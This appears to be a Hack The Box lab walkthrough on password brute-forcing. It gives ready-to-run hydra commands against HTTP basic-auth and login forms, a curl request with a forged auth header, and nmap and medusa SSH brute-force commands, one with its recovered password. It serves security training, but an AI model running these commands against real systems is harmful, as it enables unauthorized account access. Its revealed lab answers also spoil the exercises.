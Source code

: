 Cheat Sheet

+ 2  After successfully brute-forcing, and then logging into the target, what is the full flag you find?

```zsh
hydra -l basic-auth-user -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt 94.237.59.174 http-get / -s  44167
```

```zsh
cred=$(echo -n 'basic-auth-user:Password@123' | base64)
```

```zsh
curl http://94.237.59.174:44167 -H "Authorization: basic $cred" | grep 'HTB'
```

# Login Forms
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.51.163:42960   

Life Left: 81

Cheat Sheet

+ 2  After successfully brute-forcing, and then logging into the target, what is the full flag you find?
```zsh
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -f 94.237.51.163 -s 42960 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid" -I -v -t 64
```

# Web Services

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.54.192:39065   

Life Left: 84 minute(s)

Cheat Sheet

+ 0  What was the password for the ftpuser?

```zsh
nmap -p 39065 -sCV 94.237.54.192
```

```zsh
medusa -u sshuser -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -M ssh -t 4 -h 94.237.54.192 -n 39065 -f

2025-06-21 09:24:18 ACCOUNT FOUND: [ssh] Host: 94.237.54.192 User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```
